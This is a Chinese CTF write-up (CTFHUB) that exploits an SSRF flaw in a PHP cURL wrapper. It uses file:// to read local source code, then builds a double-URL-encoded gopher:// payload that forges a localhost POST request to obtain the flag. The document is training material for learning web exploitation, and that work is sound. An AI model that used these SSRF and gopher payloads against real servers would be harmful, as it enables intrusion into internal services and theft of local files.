 ### gopher 协议伪造 HTTP 请求

话不多说，直接上题（CTFHUB）

![](https://pic1.imgdb.cn/item/687f193f58cb8da5c8caf5e1.png)

老样子直接访问 `127.0.0.1/flag.php`，回显一个输入框

![](https://pic1.imgdb.cn/item/687f19ad58cb8da5c8caf5ea.png)

查看源码拿到一个 Key 值

![](https://pic1.imgdb.cn/item/687f1a1058cb8da5c8caf5f3.png)

输入后回车，提示仅限 `127.0.0.1` 查看

![](https://pic1.imgdb.cn/item/687f1c3058cb8da5c8caf6aa.png)

我们尝试用 file:// 读取文件,得到如下代码：

```
?url=file:///var/www/html/index.php
```

```php
<?php
 
error_reporting(0);
 
if (!isset($_REQUEST['url'])){
    header("Location: /?url=_");
    exit;
}

// 初始化 cURL，这是 PHP 提供的一个发起 HTTP 请求的库，底层可以发起 HTTP、HTTPS、FTP、gopher 等协议的请求
$ch = curl_init();

// 将用户传入的 url 参数直接传给 cURL 请求目标
curl_setopt($ch, CURLOPT_URL, $_REQUEST['url']);

// CURLOPT_HEADER: 0 不返回响应头
curl_setopt($ch, CURLOPT_HEADER, 0);

// CURLOPT_FOLLOWLOCATION, 1: 如果目标返回 3xx 跳转，cURL 会自动跟随跳转
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);

// 执行请求
curl_exec($ch);

// 关闭连接，释放资源
curl_close($ch);
```

再读取 `flag.php` 的

```
?url=file:///var/www/html/flag.php
```

```php
<?php
 
// 关闭所有错误报告，防止泄露敏感信息
error_reporting(0);
 
// 判断请求来源 IP 是否为本地地址 127.0.0.1
if ($_SERVER["REMOTE_ADDR"] != "127.0.0.1") {
    // 如果不是本地访问，直接提示并终止脚本
    echo "Just View From 127.0.0.1";
    return;
}
 
// 从环境变量中获取 flag（一般在靶场环境中设置）
$flag = getenv("CTFHUB");

// 对 flag 做 MD5 哈希，得到 key
$key = md5($flag);
 
// 判断用户是否通过 POST 提交了 "key"，并且值与服务器计算的 $key 相同
if (isset($_POST["key"]) && $_POST["key"] == $key) {
    // 如果提交正确，返回 flag
    echo $flag;  // 当 post 传值为 key 时出 flag
    exit;
}
?>
 
<!-- 简单的 HTML 表单，允许用户提交 key -->
<form action="/flag.php" method="post">
<input type="text" name="key">
<!-- Debug 信息：将服务器端计算的 key 显示在页面上（方便开发者调试，正常应删除） -->
<!-- Debug: key=<?php echo $key;?>-->
</form>

```

我们知道只要往 `flag.php` 传 key 值就可以得到 flag

而 `index.php` 可以利用 curl 传 url

那么我们可以用 gopher 协议在 `index.php` 中构造 POST 请求包往 `flag.php` 传 Key 值，以此获取 flag

所以我们通过 gopher 协议构造一个请求，配合 SSRF 模拟成内网用户去访问提交数据

构造这样的一个请求

![](https://pic1.imgdb.cn/item/687f1dd558cb8da5c8caf6ff.png)

直接 curl 后接 gopher 协议就先 URL 编码一次

关键的换行符是 CRLF（\r\n），而不是 LF（\n）单独使用

因为 **gopher://** 协议是**模拟原始 TCP 字节流**，而 HTTP 的协议报文换行是 `\r\n`，不能只用 `\n`

先把换行 `\r\n` 写成 **百分号编码**（url encode）：

- `\r` => `%0D`
- `\n` => `%0A`

于是变成：

```
POST%20/flag.php%20HTTP/1.1%0D%0A
Host:%20127.0.0.1:80%0D%0A
Content-Type:%20application/x-www-form-urlencoded%0D%0A
Content-Length:%2036%0D%0A
%0D%0A
key=a840f3c56810783306b3a75f861bd31a
```

我这里思路是先跳到内网的 `index.php` 中再传入 POST 请求

所以要 URL 编码两次（在向服务器发送请求时，首先浏览器会进行一次 URL解码，因为有两个 ?url，所以会解码两次，其次服务器收到请求后，在执行 `curl` 功能时，进行第三次 URL解码）

最终使用 **gopher 协议 + 端口伪造请求**：

```php
?url=gopher://127.0.0.1:80/_
# _ 表示之后开始是 原始 TCP payload
```

最终 payload：

```
?url=http://127.0.0.1:80/index.php?url=gopher://127.0.0.1:80/_POST%252520/flag.php%252520HTTP/1.1%25250D%25250AHost%25253A%252520127.0.0.1%25253A80%25250D%25250AContent-Type%25253A%252520application/x-www-form-urlencoded%25250D%25250AContent-Length%25253A%25252036%25250D%25250A%25250D%25250Akey%25253D0bd5e192bb3c5e0f3df6b8ddf4252d9c
```

![](https://pic1.imgdb.cn/item/687f203d58cb8da5c8caf79f.png)